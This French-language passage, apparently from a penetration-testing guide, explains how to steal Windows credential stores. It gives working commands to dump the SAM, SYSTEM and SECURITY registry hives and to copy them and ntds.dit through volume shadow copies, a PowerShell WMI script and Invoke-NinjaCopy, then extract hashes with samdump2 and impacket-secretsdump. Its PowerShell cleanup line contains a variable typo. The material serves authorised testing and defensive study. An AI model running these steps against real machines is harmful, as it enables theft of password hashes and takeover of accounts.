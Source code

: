 Ces fichiers doivent être **situés** dans _C:\windows\system32\config\SAM_ et _C:\windows\system32\config\SYSTEM._ Mais **vous ne pouvez pas simplement les copier de manière régulière** car ils sont protégés.

### Depuis le Registre

La façon la plus simple de voler ces fichiers est d'obtenir une copie depuis le registre :
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```
**Téléchargez** ces fichiers sur votre machine Kali et **extraites les hashes** en utilisant :
```
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```
### Volume Shadow Copy

Vous pouvez effectuer une copie de fichiers protégés en utilisant ce service. Vous devez être Administrateur.

#### Using vssadmin

Le binaire vssadmin est uniquement disponible dans les versions Windows Server.
```bash
vssadmin create shadow /for=C:
#Copy SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SAM C:\Extracted\SAM
#Copy SYSTEM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\system32\config\SYSTEM C:\Extracted\SYSTEM
#Copy ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy8\windows\ntds\ntds.dit C:\Extracted\ntds.dit

# You can also create a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
Mais vous pouvez faire la même chose avec **Powershell**. Voici un exemple de **comment copier le fichier SAM** (le disque dur utilisé est "C:" et il est enregistré dans C:\users\Public) mais vous pouvez utiliser cela pour copier n'importe quel fichier protégé :
```bash
$service=(Get-Service -name VSS)
if($service.Status -ne "Running"){$notrunning=1;$service.Start()}
$id=(gwmi -list win32_shadowcopy).Create("C:\","ClientAccessible").ShadowID
$volume=(gwmi win32_shadowcopy -filter "ID='$id'")
cmd /c copy "$($volume.DeviceObject)\windows\system32\config\sam" C:\Users\Public
$voume.Delete();if($notrunning -eq 1){$service.Stop()}
```
### Invoke-NinjaCopy

Enfin, vous pouvez également utiliser le [**script PS Invoke-NinjaCopy**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) pour faire une copie de SAM, SYSTEM et ntds.dit.
```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\System32\config\sam" -LocalDestination "c:\copy_of_local_sam"
```
## **Identifiants Active Directory - NTDS.dit**
